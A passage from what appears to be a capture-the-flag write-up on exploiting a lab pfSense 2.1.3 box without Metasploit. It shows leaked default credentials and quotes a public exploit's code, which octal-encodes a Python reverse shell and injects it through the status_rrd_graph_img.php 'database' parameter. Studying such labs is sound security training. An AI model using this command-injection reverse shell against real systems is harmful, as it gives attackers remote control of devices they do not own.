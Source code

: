 ```
```

Two files that immediately catch my eye are changelog.txt & system-users.txt.

![](../img/Sense Writeup wo Metasploit/1_jRsyREuNyULhMXjRnLj3Kw.png)

The change-log.txt file tells us that they’re definitely using a vulnerable version of pfSense. However, they did patch two of the three vulnerabilities that are associated with this software. We have to keep that in mind when exploiting the application.

The system-users.txt file gives us credentials!

![](../img/Sense Writeup wo Metasploit/1_BQz3D5xII-W4P6XHDmpFZg.png)

The username is **rohit **and the password is the default password **pfsense**. Let’s log into the application.

![](../img/Sense Writeup wo Metasploit/1_RUQXFAarmJ1LmoMTxiIdtA.png)

The version number is 2.1.3. If we go back to our searchsploit results, one exploit does stand out.

![](../img/Sense Writeup wo Metasploit/1_1JawlP5h4L_nNyUrMdRGpQ.png)

# Exploitation

Transfer the exploit to our directory.

```
searchsploit -m 43560.py
```

Let’s look at the[ exploit](https://www.exploit-db.com/exploits/43560) to see what it’s doing.

```
.....

`# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)`

`payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
......`
```

